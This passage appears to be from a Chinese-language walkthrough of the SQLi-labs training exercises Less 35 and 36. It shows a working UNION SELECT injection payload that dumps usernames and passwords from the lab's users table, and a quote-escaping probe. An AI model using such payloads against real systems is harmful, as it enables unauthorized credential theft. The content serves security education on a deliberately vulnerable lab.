 (https://www.cnblogs.com/linfangnan/p/13963425.html#1024301976)

注入的 payload 和 Less 1 完全一样，爆出用户名和密码。

```sql
Copy ?id=-1 UNION SELECT 1,group_concat(concat_ws(0x3a,username,password)),3 FROM security.users--+
```

[![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less35.assets/1774310-20201114005154044-330644705.png)](https://img2020.cnblogs.com/blog/1774310/202011/1774310-20201114005154044-330644705.png)








# Less 36

(https://www.cnblogs.com/linfangnan/p/13963425.html#1991828870)

## 判断注入类型

(https://www.cnblogs.com/linfangnan/p/13963425.html#3974072103)

注入正常的参数，网页回显正常信息。注入单引号对参数进行闭合，网页虽然返回了正确的信息，但是对单引号进行了转义。

```
Copy ?id=1'
```

